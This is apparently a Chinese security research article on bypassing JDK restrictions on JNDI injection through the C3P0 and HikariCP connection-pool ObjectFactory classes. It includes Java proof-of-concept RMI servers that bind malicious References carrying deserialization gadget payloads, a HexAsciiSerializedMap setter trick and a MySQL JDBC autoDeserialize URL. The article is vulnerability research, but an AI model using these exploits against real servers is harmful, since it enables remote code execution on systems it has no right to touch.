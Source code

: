 JDNI注入漏洞已经很是众所周知了，针对高版本JDK的绕过方式主要是基于javax.naming.spi.ObjectFactory实现类的利用或者是通过反序列化进行绕过，本文主要讲述两个基于javax.naming.spi.ObjectFactory实现类来进行绕过高版本JDK点。  
文中不再絮叨基于`javax.naming.spi.ObjectFactory`实现类的绕过原理了，而是直接步入正题。本文所用环境为JDK8U252

文章思路均来自于大佬的一句话  
&gt; ObjectFactory 的实现类里有好几个类都是用来实例化数据源的，如果能够触发数据库连接，那就可以用 jdbc 来 RCE。  
那么反过来想一下，连接池是不是都要实例化数据源，那么来看一下一些常用的数据源是否有可以利用的点呢。

C3P0
----

C3P0是一个成熟且广泛使用的开源JDBC连接池，提供了丰富的配置选项以处理各种数据库连接场景。它的特点包括对连接断开的自动恢复、表现出色的并发性能、缓慢查询日志输出以及可选的Statement缓存等。而且，C3P0可以适应各类JDBC驱动，并且可以灵活地配置连接的获取和释放策略，以适应各种数据库类型和应用场景。测试C3P0版本为：0.9.5.2

直接来看`com.mchange.v2.c3p0.impl.C3P0JavaBeanObjectFactory`，这个类并没有直接实现`ObjectFactory`，而是在其父类`com.mchange.v2.naming.JavaBeanObjectFactory`实现了`ObjectFactory`接口，看一下`com.mchange.v2.naming.JavaBeanObjectFactory#getObjectInstance`做了什么事

```java
public Object getObjectInstance(Object refObj, Name name, Context nameCtx, Hashtable env)throws Exception{
if (refObj instanceof Reference)
    {
    Reference ref = (Reference) refObj; // 强转refObj
    Map refAddrsMap = new HashMap();    // 拿出所有的属性
    for (Enumeration e = ref.getAll(); e.hasMoreElements(); )
        {
        RefAddr addr = (RefAddr) e.nextElement();
        refAddrsMap.put( addr.getType(), addr );
        }   // 加载指定的class
    Class beanClass = Class.forName( ref.getClassName() );
    Set refProps = null;    
// 拿到并移除传入属性中key是
// com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY的一对键值
    RefAddr refPropsRefAddr = (BinaryRefAddr) refAddrsMap.remove( JavaBeanReferenceMaker.REF_PROPS_KEY );
    if ( refPropsRefAddr != null )  // 当传入的属性中包含这对键值时进入
        // BinaryRefAddr中key是String.class,value是byte[].class
        // 此处对Value进行了反序列化操作
        refProps = (Set) SerializableUtils.fromByteArray( (byte[]) refPropsRefAddr.getContent() );
        // 根据传入的ref，和指定的beanClass，也就是ref中的key是否与beanClass中是否有对应key,有就取出
        Map propMap = createPropertyMap( beanClass, refAddrsMap );
        return findBean( beanClass, propMap, refProps ); // 简单点说，创建一个javaBean
    }
else
    return null;
}
```

上半部分其实很好理解，主要是`createPropertyMap`和`findBean`，跟进到`com.mchange.v2.naming.JavaBeanObjectFactory#createPropertyMap`，总结一下这个方法就是从refAddr中取出能够放到bean对象中的传入的键值对

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-9dc99994f4f5d44604adf637a1c6dc4262697f23.png)  
然后继续来到`com.mchange.v2.c3p0.impl.C3P0JavaBeanObjectFactory#findBean`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0eb6001be4cb9a18de2d09a3b9ef609eca85d92a.png)  
`com.mchange.v2.naming.JavaBeanObjectFactory#findBean`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-2f5292a128dd08be861cd2ade1d8e51627724574.png)  
设置完字段值之后，基本上流程到这里也就结束了，再来看一下哪里能够利用

### 反序列化

首先肯定是在`com.mchange.v2.naming.JavaBeanObjectFactory#getObjectInstance`中的那个`SerializableUtils.fromByteArray( (byte[]) refPropsRefAddr.getContent() )`，跟进`fromByteArray`方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-91751b10e2b8a57c842906e42e108d033c12c8f6.png)  
`com.mchange.v2.ser.SerializableUtils#deserializeFromByteArray`一段很朴实无华的反序列化

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-baf381d0e7de76648c758aa5720f5621fc33e973.png)  
所以此时就可以进行利用了，需要的条件

- 目标存在JNDI注入，但JDK版本过高
- 存在C3P0的jar包
- 存在反序列化利用链
- refAddr中存在一个以`com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY`为addrType的address，并且是一个`BinaryRefAddr`
    
    ```java
    public static void main(String[] args) throws Exception {
    Reference ref = new Reference("java.lang.Object",
            "com.mchange.v2.c3p0.impl.C3P0JavaBeanObjectFactory",null);
    
    ref.add(new BinaryRefAddr("com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY", \
                              Utils.base64ToByte("rO0ABXNyABFqYXZhLnV....")));  // 反序列化链的base64字节数组
    
    Registry registry = LocateRegistry.createRegistry(3333);
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
    registry.bind("calc", referenceWrapper);
    }
    ```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-047b018dca7f4b94efb81c17740d22d596890107.png)  
不过这里不仅有一个反序列化的点，在刚刚的流程中也能够看到还有一个反序列化的点，不过那个跟这个基本类似，只需要更改ref.add()方法中传入的值即可。

### 反射调用setter方法

在刚刚的分析过程中，能够很明显的发现存在反射调用setter方法的地方，这个时候，貌似就能够进行利用了。只需要满足：

- 某个类中的setter方法能够直接或间接的利用  
    比如说，在fastjson中用的**C3P0\_Hex\_Base**，在这里就能够直接使用

```java
public static void main(String[] args) throws Exception {
    Reference ref = new Reference("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
            "com.mchange.v2.c3p0.impl.C3P0JavaBeanObjectFactory", null);

    String poc = "aced00057372001"; // 别忘了满足十六进制ascii每字节必须为两位数字。

    ref.add(new StringRefAddr("userOverridesAsString", "HexAsciiSerializedMap:" + poc));
    Registry registry = LocateRegistry.createRegistry(3333);
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
    registry.bind("calc", referenceWrapper);
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0818ff6b6ba9f2d004f7a8806bcf23cdcb68c8ef.png)

HikariCP
--------

HikariCP是一个高性能、简洁且稳定的Java数据库连接池，被广泛应用在高并发环境下。它致力于提供更快的性能，同时通过减少配置的复杂度实现用户友好。极低的启动时间、高吞吐量以及丰富的错误诊断信息是其显著特征，还拥有队列式公平调度策略，确保资源的优雅调度。  
直接来看这个连接池中实现了`ObjectFactory`的类，直接来看`com.zaxxer.hikari.HikariJNDIFactory#getObjectInstance`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e9bbac2da19ff3d95969a5a822945c4c1b4c06c2.png)  
跟进来到`com.zaxxer.hikari.HikariJNDIFactory#createDataSource`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-baa130abbd47ff58e94218cafa15d00bfadf8de3.png)  
JNDI那个就没必要看了，直接来到`com.zaxxer.hikari.HikariDataSource#HikariDataSource(com.zaxxer.hikari.HikariConfig)`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-bf97b89b3aad24500b4f5af4283e9b4b005e4345.png)  
`com.zaxxer.hikari.pool.PoolBase#PoolBase`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-9a0956e3c7f8f6b37288f925b11adb3e0efd511e.png)  
`com.zaxxer.hikari.pool.PoolBase#initializeDataSource`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-13bbfe5ba7098560314f36dedd20ae751d62bf34.png)  
再往下就没必要继续跟了，还是数据库创建连接的那一套，到这里就知道创建数据库链接所需的条件是怎么来的了，此时，有了创建数据库链接的地方，还记得JDBC相关的漏洞嘛，当存在该连接池，并且存在一个有漏洞的jdbc时，是不是就可以进行漏洞利用了

当然，这里还有个点需要说一下，就是`jdbcUrl`这个值的事情

这里需要注意的就是传入的url的addrType是`jdbcUrl`，因为有些连接池中用的值是`url`，所以这也是一个小小的坑点

为什么是这个值是因为`com.zaxxer.hikari.util.PropertyElf#setTargetFromProperties`，反射设置HikaiConfig中的值，因为HikaiConfig的jdbc url的字段名是`jdbcUrl`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-041eee29bcdb1db915cb5f7ad6d0a99216853e20.png)  
然后这里我用了MySQL JDBC(5.1.48版本)的漏洞

```java
public static void main(String[] args) throws Exception {
    Reference ref = new Reference("javax.sql.DataSource",
            "com.zaxxer.hikari.HikariJNDIFactory", null);

    String jdbc_url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;statementInterceptors" +
            "=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_cc6_calc";

    ref.add(new StringRefAddr("driverClassName","com.mysql.jdbc.Driver"));
    ref.add(new StringRefAddr("jdbcUrl",jdbc_url));

    Registry registry = LocateRegistry.createRegistry(3333);
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
    registry.bind("calc", referenceWrapper);
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-56162aa01d497facb8693620b8586d62dcc045cf.png)

总结
--

本篇文章，是在学习完两位大佬的文章后，自行举一反三出来的，这里列举了两种数据库连接池，其他一些数据库连接池其实也多多少少都有些可以利用的点，若是遇到了类似常见可以试一下。最后，文章若是有什么错误的地方，还望大佬们指出，会及时修正的???

参考连接
----

- [https://tttang.com/archive/1405/#toc\_dbcp](https://tttang.com/archive/1405/#toc_dbcp)
- [https://xz.aliyun.com/t/10656](https://xz.aliyun.com/t/10656?time__1311=mq%2BxBDy7G%3DLOD%2FD0DoY4GIQ7Kl8DWwvD&amp;alichlgref=https%3A%2F%2Ftttang.com%2F)